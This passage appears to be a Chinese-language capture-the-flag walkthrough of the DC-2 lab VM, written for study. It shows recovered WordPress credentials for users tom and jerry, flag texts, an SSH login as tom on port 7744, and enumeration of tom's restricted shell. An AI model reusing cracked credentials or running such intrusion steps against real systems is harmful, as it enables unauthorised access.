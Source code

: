     得到 `tom` `jerry` 的密码
    
    ```sql
    | Username: jerry, Password: adipiscing
    | Username: tom, Password: parturient
    ```
    
3. 登陆后台
    - 先登录`jerry`的后台
        
        在主页 `Pages` 里面可以找到 `flag2`
        
        ```sql
        Flag 2:
        
        If you can't exploit WordPress and take a shortcut, there is another way.
        
        Hope you found another entry point.
        ```
        
        `jerry`的`email`  jerry@notreallyanywhere.net
        
    - `tom` 的后台
        
        没有可利用的
        
4. 根据 `Hope you found another entry point.` ，因为`7744`端口是`ssh`，使用这两个用户尝试登录
    - 使用tom登陆成功，获得shell
        
        ```sql
        ssh tom@192.168.75.157 -p 7744
        tom@192.168.75.157's password: 
        
        The programs included with the Debian GNU/Linux system are free software;
        the exact distribution terms for each program are described in the
        individual files in /usr/share/doc/*/copyright.
        
        Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
        permitted by applicable law.
        tom@DC-2:~$ 
        ```
        
    - 当前目录下下存在 `flag3.txt` ,发现 `vim` `cat` `more` 等命令是使用不了的，用的是 `vi`
        
        ```sql
        Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
        ```
        
    - 查看`tom`可以使用的命令
        
        ```sql
        tom@DC-2:~$ ls -al usr/bin
        //
        lrwxrwxrwx 1 tom tom   13 Mar 21  2019 less -> /usr/bin/less
        lrwxrwxrwx 1 tom tom    7 Mar 21  2019 ls -> /bin/ls
        lrwxrwxrwx 1 tom tom   12 Mar 21  2019 scp -> /usr/bin/scp
        lrwxrwxrwx 1 tom tom   11 Mar 21  2019 vi -> /usr/bin/vi
        ```
        